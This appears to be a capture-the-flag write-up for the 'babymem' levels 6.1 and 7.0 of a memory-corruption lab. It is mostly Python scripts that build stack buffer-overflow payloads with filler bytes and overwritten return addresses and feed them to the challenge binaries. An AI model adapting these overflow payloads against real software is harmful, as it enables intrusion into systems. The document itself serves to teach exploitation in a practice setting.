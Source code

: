 <div alt="page-break" class="page-break"></div>

## Level 6.1

`./memory.sh 104 "\x7d\x22\x40"`

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level6.1"
> 
> payload = b"107\n"
> payload += b"A" * 104
> payload += b"\x7d\x22\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`

## Level 7.0

**script.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])
target_address = 0x23bc

payload = b"A" * (buffer_size)
target_struct = struct.pack("<H", target_address) # H 2byte; I 4byte
payload += target_struct
payload_len = len(payload)

def execute_attack():
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE)
        input_data = f"{payload_len}".encode() + b"\n" + payload
        print(input_data)
        process.communicate(input=input_data)
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    print(f"Payload generato ({len(payload)} bytes).")
    print(f"Indirizzo di iniezione: {hex(target_address)}")
    execute_attack()
```
